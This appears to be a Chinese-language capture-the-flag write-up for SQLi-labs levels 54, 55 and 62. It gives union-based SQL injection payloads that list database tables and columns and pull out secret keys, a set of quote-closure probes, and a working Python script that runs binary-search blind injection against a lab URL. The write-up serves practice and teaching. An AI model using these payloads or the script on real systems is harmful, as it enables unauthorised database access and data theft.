 ```yaml
---
title: SQLi-labs Challenges
key: 4a42e8a626dad959a51f91550ef7c191
tags:
  - SQLi
  - Writeup
  - CTF
date: 2019-05-26 09:17:00
---
```




## Less 54 



Description: GET / challenge / Union / 10 queries allowed / Variation 1

![](/assets/images/move/1558833874853-dba3a71f-fbdb-4ae6-bf64-d6bbb7f496a2.png)

要求从challenges数据库中获取secret_key，限制了查询次数为10。

```sql
#1.判断闭合方式 -> 单引号闭合
id=1' or '1'='1
#2.获取表名 -> PSYFDRBQFS
union select 1,group_concat(table_name),3 from information_schema.tables \
where table_schema='challenges'#
#3.获取字段名 -> id,sessid,secret_HOGR,tryy
union select 1,group_concat(column_name),3 from information_schema.columns \ 
where table_name='PSYFDRBQFS'#
#4.获取secret字段 -> YsqNLf4769SUGQm7HDdyNjRP
union select 1,group_concat(secret_HOGR),3 from PSYFDRBQFS#
```



## Less 55

Description: GET / challenge / Union / 14 queries allowed / Variation 2

1.判断闭合方式

```bash
id=1' --+
id=1" --+
id=1 --+
id=1) --+ //correct
id=1') --+
id=1") --+
```

2.常规查询

```bash
#1.table_name -> A8OVY3542N
-1) union select 1,group_concat(table_name),3 from information_schema.tables \
where table_schema='challenges'--+
#2.column_name -> secret_XXQ0
-1) union select 1,group_concat(column_name),3 from information_schema.columns \
where table_name='A8OVY3542N'--+
# secret_key -> tDKqoseQXitElBSv7SsW3XLv
-1) union select 1,group_concat(secret_XXQ0),3 from A8OVY3542N--+
```



Less 56-61基本上都是闭合方式上的区别，常见的闭合方式有`'`、`"`、`)`、`')`、`")`、`'))`等。



## Less 62

Description: GET / challenge / Blind / 130 queries allowed / variation 1

经探测闭合方式为单引号`')`，限制查询次数为130的盲注，这里使用二分法进行注入。(130次不够，逃~



```python
# -*- coding: utf-8 -*-
import time
import requests
from urllib.parse import quote_plus

main_url = 'http://43.247.91.228:84/Less-62/?id='

correct = 'Your Login name : Angelina'

# payload
table_name_ = '1\') and ascii(substr((select group_concat(table_name) '\
    'from information_schema.tables where table_schema=\'challenges\'),%d,1))%s%d#'



def check(query_string):
    url = main_url + quote_plus(query_string)
    html = requests.get(url)
    if correct in html.text:
        return True
    else:
        return False

def search(payload):
    print('[*]' + payload)
    result = ''
    print('[~]', end = '')
    for i in range(1, 100):
        left = 33
        right = 127
        #binary search
        while left <= right:
            mid = (left + right) // 2
            s = payload % (i, '=', mid)
            if check(s):
                result += chr(mid)
                print(chr(mid), end = '')
                break
            else:
                s = payload % (i, '>', mid)
                if check(s):
                    left = mid + 1
                else:
                    right = mid - 1
        if left > right:
            break
    print()
    return result

if __name__=="__main__":
    table_name = search(table_name_)
```

剩余关卡主要区别也就在于闭合方式的不同，不多赘述，整体把SQLi-labs刷下来感觉没有预期的那么难，很关卡也只是同种类型做了微小的改变(如闭合方式)，都是一些基础题目，适合新手入门学习~